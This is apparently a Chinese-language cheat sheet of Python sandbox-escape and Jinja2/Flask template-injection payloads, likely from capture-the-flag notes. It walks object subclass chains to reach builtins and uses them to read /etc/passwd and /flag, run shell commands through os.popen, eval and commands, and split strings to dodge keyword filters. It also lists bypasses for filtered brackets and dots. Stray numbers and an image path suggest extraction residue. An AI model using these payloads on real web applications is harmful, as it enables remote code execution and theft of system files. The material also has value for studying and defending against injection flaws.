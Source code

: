 - <class ‘warnings.catch_warnings’>
  一般位置为59，可以用它来调用file、os、eval、commands等

```python
# 调用file，把 read() 改为 write() 就是写文件
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()   
# import os
[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['pop'+'en']('ls /').read()
#调用eval
[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")
[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['ev'+'al']('__imp'+'ort__("os").po'+'pen("ls ./").read()')
# 调用system
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
# commands命令执行
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
```

#### 绕过方式

##### 过滤[]

- 使用`__getitem__`
- 使用`pop()`，但是pop会删除里面的键

```python
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag').read()}}
1
```

- 使用`get()`，返回指定键的值，如果值不在字典中返回default值
- 使用`setdefault()`，和get()类似, 但如果键不存在于字典中，将会添加键并将值设为default

```python
{{url_for.__globals__['__builtins__']}}
{{url_for.__globals__.__getitem__('__builtins__')}}
{{url_for.__globals__.pop('__builtins__')}}
{{url_for.__globals__.get('__builtins__')}}
{{url_for.__globals__.setdefault('__builtins__')}}
```

##### 过滤.

```python
().__class__
()["__class__"]
()|attr("__class__")
().__getattribute__("__class__")
1234
```
